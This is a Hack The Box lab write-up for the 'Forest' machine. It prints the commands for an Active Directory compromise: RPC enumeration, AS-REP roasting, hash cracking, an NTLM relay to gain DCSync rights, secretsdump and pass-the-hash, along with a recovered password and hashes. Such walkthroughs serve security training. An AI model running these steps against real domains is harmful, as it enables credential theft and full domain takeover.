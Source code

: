 ```yaml
---
layout: single
title: Forest - Hack The Box
excerpt: ""
date: 2020-03-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-forest/forest_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - BloodHound
  - Active Directory
  - Evil WinRM
  - Impacket
---
```


![](/assets/images/htb-writeup-forest/forest_logo.png)

## Synopsis
Forest is a Easy windows machine. 

## Skills Required
* Enumeration
* Active Directory
* Impacket tools

## Skills Learned
* Active Directory
* BloodHound
---
### Nmap
![](/assets/images/htb-writeup-forest/nmap.png)

### SMB Enumeration
Let's see if we can list the user of *RPC* CLient.
```
rpcclient -U "" -N 10.10.10.161
```
![](/assets/images/htb-writeup-forest/rpc.png)

We found the potential users on the machine. With the help of this we make `users.txt` which looks like this:
```
cat users.txt

Administrator
Guest
Krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

### AS-REP Roasting
AS-REP Roasting is an attack against Kerberos for user accounts that do not require preauthentication. This is explained in pretty thorough detail in [Harmj0y's post](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

### Performing AS-REP Roasting with GetNPUsers
`GetNPUsers.py` queries target domain for users with 'Do not require kerberos preauthentication' set and export their TGTs for cracking.
![](/assets/images/htb-writeup-forest/getnpusers.png)

Obtained hash for the user `svc-alfresco`
```
$krb5asrep$svc-alfresco@HTB.LOCAL:548c6d9cc7891d9634793907dd9696d9$9900b4424d2d67cc83ce90ae9ffecd784a4c1bc83b0220e77ff075133f928e6e806af4698d7dbdaf7b70321d07527011c8339acba6f0cfc714ab1274d2438797a364ee949d75f7c5b401c1eeba1b8b7c39ecb63444008e4f3e108488602bd2e52d2e9bba6c32bebe4ae8277d8eed550edacade665c57d52ba8409dd1f259230c67b4fec3a3f42bb721c99e42e8bdc05c8071a72dec3ba9578a5f7788c8be3c378f710afce50c95940b06a20b6742b9e4fbef033ec13d6ee0c63fd63fdddb43e402f64bdfb56fa5b4c1c19350a2f3c8826342847993adc4b062b427794b46fd2de79eebe150ed
```
### Cracking the Hash
As we ouputed the `John the ripper` compatible hash from `GetNPUsers.py`. we can crack it with `john`. Hash is stored int the file named `svc-alfresco.hash`.
![](/assets/images/htb-writeup-forest/crack.png)

After the successful cracking the credentials are: `svc-alfresco:s3rvice`.

Earlier during enumeration. we noticed that port `5985` is open so we can use WinRM to connect to box. I used [EvilWinRM](https://github.com/Hackplayers/evil-winrm) to connect to the machine through open `WinRM` port.
![](/assets/images/htb-writeup-forest/initial_shell.png)

we can use `Get-DomainUser -UACFilter DONT_REQ_PREAUTH` to check which users don't have kerberos preauthentication set.
![](/assets/images/htb-writeup-forest/domainusers.png)

### Privilege Escalation
Doing `net groups` reveals:
* Exchange Servers
* Exchange Trusted Subsytem
* Exchange Windows permissions.

![](/assets/images/htb-writeup-forest/net_group.png)

[Dirk-jan](https://twitter.com/_dirkjan) Mollema wrote a great article on Abusing Exchange: [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

So, We can take adavantage of these vulnerabilities
* Exchange servers have(too) high privileges by default
* NTLM authenticaiton is vulnerable to relay attacks
* Exchange has a feature which makes it authenticate to an attacker with computer account of the Exchange server.

The `Exchange Windows Permission group` has `WriteDcal` access to Domain object in Active Directory, which enables any memeber of this group to modify the domain privileges,
among which is the privilege to perform `DCSync` operation. Let's confirm by running `BloodHound` if ` Exchange Windows Permission` group has `WriteDacl` access to the Domain Object in Active Directory.

### BloodHound
We upload and run `SharpHound.exe` on the machine and drop the outputed zip file which cotains data into `BloodHound`.

![](/assets/images/htb-writeup-forest/sharphound.png)

Drop in the `zip` file into BloodHound. looking for the path form `svc-alfresco@htb.loal` to `Domain Admins@htb.local`.

![](/assets/images/htb-writeup-forest/bloodhound.png)

Checking the groups memberships of `svc-alfresco`. We can see that `service account` is the memeber of `HTB\Privileged IT Accounts`.
![](/assets/images/htb-writeup-forest/groups.png)

A user account will inherit all permissions to resources that are set on the group of which the user is a direct/indirect memeber that's why we can add svc-alfresco to `Exchange Windows Permissions`
![](/assets/images/htb-writeup-forest/perm.png)

Now, Run `ntlmrelayx` with the DC IP that we want to relay to , and specify a domain user we control, who we want to escalate privileges for.
```
python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```
After a minute(we've to browse to our local host and enter svc-alfresco's creds) we see the connection coming in at ntlmrelayx, which gives our user `DCSync` privileges.

![](/assets/images/htb-writeup-forest/ntlmrelayx.png)

A Schematic of the above attack is displayed below, showing the steps that are performed to escalate privileges:

![](/assets/images/htb-writeup-forest/attack.png)
`https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/`

### DCSync attack via secretsdump
Now, we need to run `DCSync` attack via sceretdump
```
python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc
```
![](/assets/images/htb-writeup-forest/secretdump.png)

### Admin Shell
Now we can get `Administrator` shell by `pass the hash` technique.
We can perform pass the hash using `Evil-winrm`. with hash `32693b11e6aa90eb43d32c72a07ceea6`

![](/assets/images/htb-writeup-forest/root.png)


